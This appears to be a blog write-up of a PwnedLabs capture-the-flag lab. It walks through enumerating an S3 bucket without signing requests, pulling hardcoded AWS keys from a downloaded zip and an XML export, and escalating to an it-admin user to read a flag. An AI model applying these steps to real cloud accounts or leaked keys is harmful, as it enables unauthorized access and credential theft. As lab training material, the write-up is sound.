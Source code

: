 ```yaml
---
title: AWS S3 Basics
layout: post
date: 2025-06-23
categories: [Writeups, PwnedLabs]
tags: [Cloud, AWS, S3]
author: bailee
toc: true
description: Examine a website found in a phished employee’s bookmarks, and gain access to privileged company data in a S3 bucket. 
---
```

Lab Platform:
: [PwnedLabs](https://pwnedlabs.io/labs/aws-s3-enumeration-basics)

---
## Tools & Commands

### Tools Used
- AWS CLI

### Commands
- `aws sts get-caller-identity`
  - The ‘whoami’ of AWS CLI, shows ARN of the user, including AWS Account ID.
- `aws s3 ls s3://<s3-name>`
  - List out the contents of a S3 bucket, and the directories within it.
- `aws s3 cp s3://<s3-name>`
  - Copy/download the specified file, use . at the end to ‘cat’ it to the screen

---

## Lab Walkthrough

### Enumeration & Initial Access 
Viewing the source of the website, we see a reference to `https://s3.amazonaws.com/dev.huge-logistics.com`

![image.png](assets/img/s3EnumerationBasics/image.png)

Looks like it at least has a static .png & CSS file in there.

We can try to navigate to just `https://s3.amazonaws.com/dev.huge-logistics.com/`, but we get an ‘access denied’ error.

![image.png](assets/img/s3EnumerationBasics/image1.png)

This is likely because we don’t have access to that bucket directory because of a policy.

Using the URL modifiers `prefix=` and `delimeter=/` in the URL request, it will output common prefixes that can be added to the end of the URL (like how we saw static/). Some interesting ones I’m seeing is admin/ and migration-files/.

![image.png](assets/img/s3EnumerationBasics/image2.png)

Using the CLI, we can attempt to list directories of the S3 bucket without signing in (the `--no-sign-request` modifier.) I want to go straight to the admin folder, since it looks fun.

```
# aws s3 ls s3://dev.huge-logistics.com/admin/
2023-10-16 09:08:38          0
2024-12-02 07:57:44         32 flag.txt
2023-10-16 14:24:07       2425 website_transactions_export.csv
```

Oo, give me that flag please.

```
# aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt -
download failed: s3://dev.huge-logistics.com/admin/flag.txt to - An error occurred (403) when calling the HeadObject operation: Forbidden
```

:( Guess we don’t have permission to access it. What else can we do?

After poking around, I found the shared/ directory has a file called h1_migration_project.zip. I downloaded it using ‘aws s3 cp’ and found hardcoded AWS keys, which looks like it’s used for the AWS Secrets Manager service.

```
#AWS Configuration
$accessKey = "AKIA*******WOWKXEHU"
$secretKey = "MwGe3leV*******************FiG83RX/gb9"
$region = "us-east-1"
```

### Privilege Escalation

I used ‘aws configure’ to add the access & secret keys, after using `aws sts get-caller-identity`, I see I now have the role called pam-test.

```
# aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}
```

Pam-test has more access to the S3 directories, including /migration-files.

```
# aws s3 ls s3://dev.huge-logistics.com/migration-files/
2023-10-16 09:08:47          0
2023-10-16 09:09:26    1833646 AWS Secrets Manager Migration - Discovery & Design.pdf
2023-10-16 09:09:25    1407180 AWS Secrets Manager Migration - Implementation.pdf
2023-10-16 09:09:27       1853 migrate_secrets.ps1
2023-10-16 12:00:13       2494 test-export.xml
```
### Exfiltration

The most interesting file here is ‘migrate_secrets.ps1’. I used the command `# aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml -` to print the command to the command prompt screen. And there are more sets of credentials! One of them is for an ‘AWS IT Admin’.

```
  <!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>AKIA3SFM*****RFWFGCD</AccessKeyID>
        <SecretAccessKey>t21ERPmDq5C***********0bnL4hY6jP</SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
```

Again, I used ‘aws configure’ to add the new access & secret key, and now we are an it-admin.

```
# aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOWKM6ICH4K",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/it-admin"
}
```

Immediately, I used the same command as before to get the flag, and it worked!